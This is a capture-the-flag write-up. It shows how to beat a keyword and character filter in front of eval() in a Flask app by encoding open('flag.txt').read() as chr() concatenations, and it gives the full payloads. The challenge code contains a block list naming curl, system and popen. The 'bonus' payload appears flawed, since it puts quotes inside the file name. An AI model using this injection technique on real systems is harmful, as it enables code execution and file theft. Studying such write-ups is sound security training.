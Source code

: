 # solution

Take a quick look at the source code

```
#!/usr/bin/python3
from flask import Flask, request, render_template
import string
import subprocess
import re


app = Flask(__name__)


def filter(formula):
    w_list = list(string.ascii_lowercase + string.ascii_uppercase + string.digits)
    w_list.extend([" ", ".", "(", ")", "+"])

    if re.search("(system)|(curl)|(flag)|(subprocess)|(popen)", formula, re.I):
        return True
    for c in formula:
        if c not in w_list:
            return True


@app.route("/", methods=["GET", "POST"])
def index():
    if request.method == "GET":
        return render_template("index.html")
    else:
        formula = request.form.get("formula", "")
        if formula != "":
            if filter(formula):
                return render_template("index.html", result="Filtered")
            else:
                try:
                    formula = eval(formula)
                    return render_template("index.html", result=formula)
                except subprocess.CalledProcessError:
                    return render_template("index.html", result="Error")
                except:
                    return render_template("index.html", result="Error")
        else:
            return render_template("index.html", result="Enter the value")


app.run(host="0.0.0.0", port=8000)
```

We need to bypass filter function to trigger malicious payload on **eval()** function. After searching i find that we can use chr() to represent a character such as chr(65) for "A". The name flag's file is flag.txt. So i think we can use **open('flag.txt').read()** to read the file (if you want to know, you can use os.system('ls -la') to read all file in currently dir).

```
def string_to_chr(s):
    return '+'.join(f'chr({ord(c)})' for c in s)

input_string = "open('flag.txt').read()"
result = string_to_chr(input_string)
print(result)

```

here after i run that code

```
chr(111)+chr(112)+chr(101)+chr(110)+chr(40)+chr(39)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)+chr(39)+chr(41)+chr(46)+chr(114)+chr(101)+chr(97)+chr(100)+chr(40)+chr(41)
```

![alt text](image.png)<br>
Hmm seem this work, but it seems to just convert the chr() string to a normal character string.

Since I changed it to chr() ~ to avoid filtering, when I actually send it I have to use eval() again to send it in plain text.

formula = eval( eval(chr~~) )

The inner eval converts the chr to plain text.

The outer eval is responsible for executing the command.

Final payload

```
eval(chr(111)+chr(112)+chr(101)+chr(110)+chr(40)+chr(39)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)+chr(39)+chr(41)+chr(46)+chr(114)+chr(101)+chr(97)+chr(100)+chr(40)+chr(41))
```

![alt text](image-1.png)<br>

Bonus: After searching more a bit and test more, i find that we can use this payload to get the flag

```
open(chr(39)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)+chr(39)).read()
```

I think for eval() to work, we need to wrap these chr() type replacement characters in a plaintext function so that the eval function can execute.

